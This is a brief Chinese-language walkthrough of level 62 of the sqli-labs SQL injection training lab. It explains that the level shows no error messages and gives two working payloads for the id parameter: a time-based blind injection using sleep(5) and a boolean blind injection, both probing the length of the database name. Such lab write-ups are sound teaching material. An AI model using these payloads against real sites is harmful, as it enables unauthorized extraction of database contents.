

## sql-labs第六十二关

六十二关没有报错显示，可以使用布尔盲注和时间注入。id参数是单引号加括号

~~~ cmd
?id=1') and if(length((select database()))=10,sleep(5),1)--+  时间注入，如果出现延迟表示该数据库名长度是10 
 
 
?id=1')and length((select database()))=10--+  布尔盲注,正确的话返回正常页面否则不会返回正常页面
~~~

